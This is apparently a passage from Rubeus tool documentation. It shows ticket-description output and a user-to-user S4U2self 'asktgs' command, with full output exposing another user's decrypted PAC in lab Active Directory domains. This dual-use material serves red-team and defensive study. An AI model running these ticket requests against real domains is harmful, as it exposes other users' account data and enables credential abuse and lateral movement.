     [*] Action: Describe Ticket

    UserName              :  dfm.a
    UserRealm             :  TESTLAB.LOCAL
    ServiceName           :  roast/me
    ServiceRealm          :  TESTLAB.LOCAL
    StartTime             :  2/25/2019 3:10:59 PM
    EndTime               :  2/25/2019 8:09:54 PM
    RenewTill             :  3/4/2019 3:09:54 PM
    Flags                 :  name_canonicalize, pre_authent, renewable, forwardable
    KeyType               :  rc4_hmac
    Base64(key)           :  Gg3zZicIl5c50KGecCf8XA==

Requesting a user-to-user service ticket and including the *PA for User* PA-DATA section (an S4U2self request), it is possible to get a readable PAC for any user:

    C:\Rubeus>Rubeus.exe asktgs /u2u /targetuser:ccob /ticket:doIFijCCBYagAwIBBaED...(snip)...3RwYWNrLmxvY2Fs /tgs:doIFijCCBYagAwIBBaEDAg...(snip)...YWNrLmxvY2Fs

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Ask TGS

    [*] Using domain controller: PDC1.rubeus.ghostpack.local (192.168.71.80)
    [*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
    [*] Building User-to-User TGS-REQ request for: 'exploitph'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

          doIFKzCCBSegAwIBBaEDAgEWooIEKzCCBCdhggQjMIIEH6ADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          cGxvaXRwaA==

      ServiceName              :  exploitph
      ServiceRealm             :  RUBEUS.GHOSTPACK.LOCAL
      UserName                 :  ccob
      UserRealm                :  RUBEUS.GHOSTPACK.LOCAL
      StartTime                :  20/07/2021 22:00:07
      EndTime                  :  21/07/2021 07:59:39
      RenewTill                :  27/07/2021 21:59:39
      Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
      KeyType                  :  aes256_cts_hmac_sha1
      Base64(key)              :  u2AYdjG4gLNIXqzb3MmwtDtE1k2NR5ty9h80w704+8Q=
      Decrypted PAC            :
        LogonInfo              :
          LogonTime            : 01/01/1601 00:00:00
          LogoffTime           :
          KickOffTime          :
          PasswordLastSet      : 20/07/2021 21:58:44
          PasswordCanChange    : 21/07/2021 21:58:44
          PasswordMustChange   : 31/08/2021 21:58:44
          EffectiveName        : ccob
          FullName             : C Cob
          LogonScript          :
          ProfilePath          :
          HomeDirectory        :
          HomeDirectoryDrive   :
          LogonCount           : 0